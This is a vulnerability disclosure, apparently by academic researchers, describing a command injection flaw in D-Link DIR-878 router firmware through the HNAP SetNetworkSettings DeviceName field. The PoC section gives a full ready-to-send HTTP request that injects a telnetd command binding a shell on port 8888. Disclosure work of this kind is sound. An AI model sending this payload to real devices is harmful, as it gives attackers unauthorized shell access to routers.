 # D-Link Vulnerability

Vendor:D-Link

Product:DIR_878

Version:DIR_878_FW1.30B08_Hotfix_02(Download Link:https://support.dlink.com/ProductInfo.aspx?m=DIR-878)

Type:Command Execution

Author:Jiaqian Peng,Huizhao Wang

Institution:pengjiaqian@iie.ac.cn,wanghuizhao@iie.ac.cn



## Vulnerability description

We found an Command Injection vulnerability  in D-link Technology router with firmware which was released recently.A command Injection vulnerability allows attackers to execute arbitrary OS commands via a crafted /HNAP1 POST request. This occurs when any HNAP API function triggers a call to the `twsystem` function with untrusted input from the request body for the `SetNetworkSettings` API function (need authentication).

**Remote Command Execution**

In `prog.cgi` binary:

In `SetNetworkSettings` function,`DeviceName` is directly passed by the attacker. After that, call the function nvram_safe_set to store this input.

<div  align="center"><img src="./images/1.png" style="zoom:80%;" /></div>

Then, we configure vlan, which will call the function `SetVLANSettings`.

In `rc` binary:

<div  align="center"><img src="./images/2.png" style="zoom:80%;" /></div>

Then,`start_lan_up` -> `start_dev_mgt_link`.

Eventually, the initial input will be extracted and cause command injection.

<div  align="center"><img src="./images/3.png" style="zoom:80%;" /></div>

**Supplement**

There will be multiple ways to call the start_dev_mgt_link function (vulnerability trigger point) in the program. In order to avoid such problems, we believe that the string content should be checked in the input extraction part.



## PoC

We set `DeviceName` as **;telnetd -l /bin/sh -p 8888 -b 0.0.0.0;** , and the router will excute it,such as:

```http
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/xml
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: text/xml
SOAPACTION: "http://purenetworks.com/HNAP1/SetNetworkSettings"
HNAP_AUTH: 41A76B62FAB2A659CC98E8F9988EB5CC 1638684065941
Content-Length: 662
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/Network.html
Cookie: uid=gN7NGFrG

<?xml version="1.0" encoding="UTF-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
<soap:Body>
<SetNetworkSettings xmlns="http://purenetworks.com/HNAP1/">
	<IPAddress>192.168.0.1</IPAddress>
	<SubnetMask>255.255.255.0</SubnetMask>
	<DeviceName>;telnetd -l /bin/sh -p 8888 -b 0.0.0.0;</DeviceName>
	<LocalDomainName></LocalDomainName>
	<IPRangeStart>100</IPRangeStart>
	<IPRangeEnd>199</IPRangeEnd>
	<LeaseTime>10080</LeaseTime>
	<Broadcast>false</Broadcast>
	<DNSRelay>true</DNSRelay>
</SetNetworkSettings>
</soap:Body>
</soap:Envelope>
```

<div  align="center"><img src="./images/4.png" style="zoom:80%;" /></div>

Then,I turn on the VLAN function of the router.**(Of courese, the attacker can select this option by sending data packets, causing the vulnerability to trigger)**

<div  align="center"><img src="./images/5.png" style="zoom:80%;" /></div>



## Result

This will triger the `start_dev_mgt_link` method, and then get a shell!

<div  align="center"><img src="./images/6.png" style="zoom:100%;" /></div>
